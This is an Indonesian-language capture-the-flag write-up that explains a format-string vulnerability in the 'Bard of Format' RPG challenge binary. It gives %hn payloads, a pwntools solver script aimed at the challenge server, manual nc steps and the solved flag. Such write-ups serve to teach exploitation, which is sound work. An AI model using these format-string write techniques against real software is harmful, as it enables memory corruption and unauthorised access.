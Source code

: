 ```yaml
---
title: "LappungCTF Vol 2.0 - Bard of Format RPG (PWN)"
date: "2025-10-28"
tags: ["pwn", "ctf", "writeup", "lappungctf"]
summary: "Write-up LappungCTF Vol 2.0 - Bard of Format RPG "
image: "/blog/LappungCTFVol2.0-BardofFormatRPG/thumb.png"
author: "Erwin Wijaya"
draft: false
featured: true
---
```


## Pendahuluan

Ini write-up saya untuk challenge **Bard of Format** dari LappungCTF. Challenge ini adalah game RPG terminal kecil di mana kita lawan dua boss: **Golem** dulu, lalu **Dragon**. Menu utamanya ada: *Attack*, *Guard*, *Skill (Bard Song)*, *Heal*, dan *Quit*. Tujuan saya: dapatin `flag.txt`.

Setelah ngulik binary (decompile pake Ghidra/IDA), sata menemukan bahwa input yang diketik pas memilih *Bard Song* langsung dipakai sebagai **format string** ke `printf()` tanpa proteksi — alias format-string vulnerability. Karena program juga ngirim pointer yang mengarah ke field HP boss sebagai argumen variadik `printf`, kita bisa pake `%hn` untuk nulis 0 ke alamat HP dan langsung nge-zero HP boss. Simpel dan elegan.

---

## Ringkasan exploit (satu kalimat)
Charge Bard Song dengan dua kali `Guard`, lalu kirim format string yang menulis `0` ke alamat HP boss: `%2$hn` buat Golem, dan `%hn%hn` buat Dragon — setelah HP jadi 0, program buka `flag.txt` dan cetak flag.

---

## Bagian teknis (apa yang saya lihat di reversing)

Saya decompile biner dan menemukan panggilan `printf` berbeda tergantung fase:

- **Fase Golem** (fase 1) memanggil:
```c
printf(local_238, 0, puVar8);
```
Jadi variadik argumen adalah `0` (argumen pertama) dan `puVar8` (argumen kedua) — `puVar8` ini menunjuk ke struktur boss, dimana offset pertama adalah HP boss. Karena argumen ke-2 adalah pointer ke HP, kita bisa merujuk ke `2$` di format string. Mengirim `%2$hn` akan menulis 2 byte (low 16-bit) bernilai jumlah karakter yang sudah dicetak hingga titik itu. Karena kita tidak mencetak apa-apa sebelum itu, jumlah karakter = 0 → `%2$hn` menulis 0 ke low-16bit HP. Karena HP Golem = 150 (< 65536), menulis low-16bit ke 0 menyebabkan HP = 0.

- **Fase Dragon** (fase 2) memanggil:
```c
printf(local_238, (char*)puVar8 + 2, puVar8);
```
Sekarang ada dua pointer: satu menunjuk ke `puVar8 + 2` (upper halfword), dan satu ke `puVar8` (lower halfword). Dengan mengirim payload seperti `%hn%hn` kita menulis 0 ke alamat pertama (upper half) lalu 0 ke alamat kedua (lower half) sehingga 32-bit HP menjadi 0.

Catatan penting: `Bard Song` hanya bisa dipakai setelah pemain **survive two full turns** — artinya kita harus menahan serangan boss dua kali; praktisnya `Guard` dua kali sudah cukup.

---

## Kenapa `%hn` bukan `%n`?
- `%n` menulis ukuran `int`/`long` tergantung platform (4/8 byte). `%hn` menulis 2 byte (16-bit). Karena program memberikan pointer ke halfword (atau kita hanya butuh mengubah low/high 16-bit saja), `%hn` adalah yang tepat dan lebih aman untuk manipulasi halfword.
- Kita menulis `0`, jadi nggak perlu padding rumit. Kalau mau nulis nilai lain, kita biasanya pakai padding: `"%1234x%2$hn"` untuk menulis 1234 ke alamat.

---

## Script otomatis (PoC) — `solver.py`
Ini yang saya pake dan berhasil. Pastikan terinstal `pwntools`.

```python
#!/usr/bin/env python3
from pwn import *

HOST = "43.157.205.115"
PORT = 9006

def charge_skill(io):
    # Lakukan Guard dua kali supaya Bard Song siap
    for _ in range(2):
        io.recvuntil(b"> ")
        io.sendline(b"2")  # Guard

def bard(io, payload: bytes):
    io.recvuntil(b"> ")
    io.sendline(b"3")   # Skill (Bard Song)
    io.recvuntil(b"Bard Song:")
    io.sendline(payload)

def main():
    context.log_level = "info"
    io = remote(HOST, PORT)

    # Phase 1: kill Golem
    charge_skill(io)
    bard(io, b"%2$hn")   # tulis 0 ke low-16bit HP

    # Phase 2: kill Dragon
    charge_skill(io)
    bard(io, b"%hn%hn")  # nulis 0 ke upper lalu lower half -> HP = 0

    data = io.recvall(timeout=5)
    print(data.decode(errors="ignore"))

if __name__ == "__main__":
    main()
```

Jalankan:
```bash
pip install pwntools
python3 solver.py
```

Output yang saya dapatkan ketika menjalankan solver:
```
(ctfenv) Deb@Rommel:~/CaptureTheFlag/lappung/pwn/bard$ python3 solver.py
[+] Opening connection to 43.157.205.115 on port 9006: Done
[+] Receiving all data: Done (372B)
[*] Closed connection to 43.157.205.115 port 9006
 ♪ The echoes of your song ripple across the battlefield.

╔══════════════════════════╗
║   👑 The boss collapses! ║
║     You are victorious.  ║
╚══════════════════════════╝
FLAG: LappungCTF{a_b4rd_s0n9_L0v3_rPg_b4ttL3_with_m3loDy_f0rm4t_stRr1nG}
```

---

## Langkah manual (kalau mau pake `nc`)

1. `nc 43.157.205.115 9006`
2. Saat muncul prompt `> `: ketik `2` lalu Enter (Guard). Ulangi sekali lagi jadi total dua Guard.
3. Setelah itu ketik `3` lalu Enter (Skill).
4. Saat muncul `Bard Song:`, ketik `%2$hn` lalu Enter — Golem akan langsung mati / berganti ke Dragon.
5. Ulangi langkah 2–4 untuk Dragon, tetapi pada step 4 kirim `%hn%hn`.
6. Kalau semuanya sukses, flag bakal tercetak.

---

## Penjelasan langkah demi langkah (apa yang terjadi di memory)

- Program meletakkan beberapa argumen ke stack saat memanggil `printf`.
- Di fase Golem argumen terlihat seperti: `printf(fmt, 0, boss_ptr)`. Ini berarti argumen posisi ke-2 (`%2$...`) adalah alamat boss_ptr.
- `%2$hn` membaca jumlah karakter yang dicetak sejauh ini (0), lalu menulis 2-byte (16-bit) ke alamat `boss_ptr`. Itu men-set bagian bawah dari HP menjadi 0 → cukup untuk mengurangi HP 150 jadi 0.
- Di fase Dragon program sengaja memanggil `printf(fmt, boss_ptr+2, boss_ptr)` — menyediakan dua pointer ke HP (upper dan lower half). Mengirim `%hn%hn` menulis nilai (jumlah printed chars, masih 0) ke kedua alamat berurutan, sehingga seluruh 32-bit HP = 0.
- Setelah HP menjadi 0, game akan membuka `flag.txt` dan mencetak isinya.

---

## Troubleshooting & tips

- Kalau koneksi putus: tambahkan retry di script atau naikkan timeout `io = remote(HOST, PORT, timeout=10)`.
- Jika server punya proteksi rate-limit, jalankan perlahan atau pakai retries.
- Kalau payload lain bekerja (mis. server berbeda arg order), coba eksplorasi positional specifiers: `%1$`, `%2$`, `%3$`, dst. Gunakan `%p` untuk leak stack jika perlu.
- Jangan lupa untuk "survive two full turns" sebelum pakai skill — kalau belum charge, program akan menolak.

--- 
**Tags:** #lappungctf #pwn #ctf


